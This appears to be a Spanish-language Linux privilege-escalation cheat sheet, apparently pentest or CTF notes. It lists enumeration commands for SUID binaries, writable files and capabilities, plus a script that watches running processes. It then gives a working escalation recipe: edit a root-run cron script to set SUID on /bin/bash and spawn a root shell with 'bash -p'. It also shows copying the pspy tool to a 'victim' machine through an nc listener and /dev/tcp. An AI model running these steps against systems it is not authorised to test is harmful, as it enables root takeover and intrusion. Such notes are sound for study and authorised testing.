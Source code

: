 -- -- 
Comando utilizado para aplicar un barrido en el sistema y detectar binarios con el privilegio SUID.
```bash
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null
```

Comando utilizado para aplicar un barrido en el sistema y ver que archivos tienen capacidad de escritura.
```bash
find / -writable 2>/dev/null
```

Comando utilizado para realizar una buscada en el sistema de capabilities asociadas a binarios.
```bash
getcap -r / 2>/dev/null
```

-- - 
## Deteccion y explotacion de tareas Cron

Script en bash para detectar que usuarios estan ejecutando comandos en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

Si luego de ejecutar el anterior script descubrimos que el usuario root esta ejecutando un script mediante una tarea cron, podemos modificar el script y poner esto para escalar privilegios
```bash
#!/bin/bash 

sleep 2 
chmod u+s /bin/bash
```

Una vez hayamos modificado el script y se aplique el privilegio SUID, tenemos que abrir una bash "privilegiada"
```bash 
bash -p 
```

Tambien podriamos usar el script *pspy* para descubrir esto mismo. ---> https://github.com/DominicBreuker/pspy
Luego, para "adentrarlo" en la maquina victima lo podemos hacer de la siguiente manera (sin uso de curl, wget, etc)
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy
# Victima 
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
# Si los 2 hashes son iguales es que el script fue transferido de forma exitosa.
```
-- - 


